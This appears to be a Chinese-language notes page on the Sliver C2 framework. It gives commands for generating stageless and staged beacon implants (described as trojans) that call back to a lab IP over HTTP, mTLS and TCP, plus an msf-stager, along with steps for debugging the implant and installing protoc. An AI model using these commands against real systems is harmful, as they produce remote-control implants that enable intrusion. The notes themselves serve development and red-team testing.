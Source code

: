 # 常用命令

无阶段木马生成

    generate beacon --http http://192.168.182.131:8080 --os linux --arch amd64 --debug --debug-file sliver.log
    
    generate beacon --mtls 192.168.182.131:8080 --os linux --arch amd64 --debug --debug-file sliver.log --jitter 2 --seconds 5

阶段木马生成

    profiles new beacon linux_beacon --http  http://192.168.182.131:8080 --format exe  --os linux
    
    stage-listener --url  tcp://192.168.182.131:8088 --profile linux_beacon 
    
    generate msf-stager --lport 8088 --lhost 192.168.182.131 --arch amd64 --os linux

# 调试

### implant

```
生成debug版本的 implant

./implant

ps -aux | grep implant

/home/john/go/bin/dlv attach 2277286 --api-version 2 --headless --listen 127.0.0.1:1234 
```

可以直接去.sliver 文件中的render后的代码编译，然后调试

编译命令

```
ohn@john-machine ~/.team-server/slivers/linux/amd64/ADEQUATE_OSTRICH/src/github.com/bishopfox/sliver$ go build -gcflags="all=-N -l" .     
```

# golang protobuf 配置

先安装protobuf编译器protoc

从 Protobuf Releases（<https://github.com/protocolbuffers/protobuf/releases）> 下载最先版本的发布包安装。如果是 Ubuntu，可以按照如下步骤操作（以3.11.2为例）。

    # 下载安装包
    $ wget https://github.com/protocolbuffers/protobuf/releases/download/v3.11.2/protoc-3.11.2-linux-x86_64.zip
    # 解压到 /usr/local 目录下
    $ sudo 7z x protoc-3.11.2-linux-x86_64.zip -o/usr/local
